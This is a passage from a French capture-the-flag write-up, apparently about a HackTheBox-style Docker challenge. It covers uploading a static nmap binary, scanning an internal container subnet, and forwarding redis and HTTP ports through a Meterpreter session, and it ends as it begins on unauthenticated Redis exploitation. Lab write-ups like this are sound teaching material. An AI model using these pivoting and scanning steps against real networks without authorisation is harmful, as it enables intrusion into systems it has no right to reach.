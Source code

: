 Quand on est sur une image Docker on peut exploiter le socket spécifique quand il est présent comme [sur le CTF Game of Thrones](http://devloop.users.sourceforge.net/index.php?article136/solution-du-ctf-game-of-thrones-1-de-vulnhub), sinon (et c'est le cas ici) on peut essayer de se déplacer de container en container jusqu'à trouver ce que l'on cherche (nos fameux flags).  

Plus d'infos sur l'exploitation Docker peuvent être trouvées dans [ces slides de la Blackhat 2018](https://i.blackhat.com/us-18/Thu-August-9/us-18-McGrew-An-Attacker-Looks-At-Docker-Approaching-Multi-Container-Applications-wp.pdf).  

Redis de perdu, 10 de retrouvés
-------------------------------

Pour trouver les autres containers on va scanner les réseaux accessibles. Uploader Nmap et toutes ses dépendances ça semble plutôt compliqué (*ldd nmap* pour rigoler) heureusement il y a [ce répo Github](https://github.com/andrew-d/static-binaries/tree/master/binaries/linux/x86_64) qui propose différents outils compilés statiquement (et déjà strippés s'il vous plait).  

Une fois uploadé Nmap se plaignait de l'absence du fichier *nmap-services* : même punition, upload dans le même dossier et ça fonctionne :)  

```plain
./nmap -sT -T5 -p1-65535 -oA devloop --open 172.19.0.0/16

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2019-01-14 20:08 UTC
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for reddish_composition_redis_1.reddish_composition_internal-network (172.19.0.2)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.0012s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE
6379/tcp open  redis
MAC Address: 02:42:AC:13:00:02 (Unknown)

Nmap scan report for reddish_composition_www_1.reddish_composition_internal-network (172.19.0.3)
Host is up (0.0012s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:13:00:03 (Unknown)
```

On s'empresse de port-forwarder ces deux ports depuis notre session Meterpreter (cela permet d'avoir les ports directements accessibles sur 127.0.0.1, Meterpreter fait le reste).  

```plain
portfwd add -l 6379 -p 6379 -r 172.19.0.2
portfwd add -l 80 -p 80 -r 172.19.0.3
```

Sur le port 80 on ne trouve pas grand chose : juste une install par défaut avec le message *It works!*  

Pour le Redis c'est plus intéressant. Certes si on effectue un *searchsploit redis* depuis Kali on ne trouve rien d'exceptionnel pourtant il existe des techniques permettant d'exploiter un Redis exposé sans authentification.  
